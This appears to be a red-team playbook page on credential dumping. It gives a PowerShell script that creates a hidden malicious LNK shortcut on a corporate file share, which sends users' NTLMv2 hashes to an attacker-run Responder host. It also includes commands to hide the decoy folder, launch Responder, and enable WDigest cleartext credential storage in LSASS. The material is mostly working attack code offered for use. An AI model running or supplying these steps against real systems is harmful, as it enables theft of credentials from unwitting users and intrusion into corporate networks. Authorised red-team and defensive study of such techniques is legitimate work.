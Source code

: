 # 4.2 Credential Dumping

## Table of Contents

- [LNK Files](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md#LNK-Files)

## LNK Files

A neat little trick to gather `NTLMv2 Hashes` every time a corporate file share got accessed, is to create a malicious `file`,
which takes place in the same directory on the fileshare.

At first it is necessary to create the malicious file with the following script from [v3ded's blog](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) which I modified slightly to weaponize it for the use with `Responder`.

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

Next, switch the folder icon to the same icons as used on the fileshare. After that all is to hide the target folder with
the following command.

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/lnk_payload.png">
</p>

After this the malicious file takes place in the same directory as the hidden non-malicious folder.
Everytime a user opens the folder, his `NTLMv2 Hash` got send to the `C2` server which is running `Responder`.

```c
$ sudo responder -I <INTERFACE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/malicious_file.png">
</p>

## WDigest

### Store cleartext credentials in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)

### Next

- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
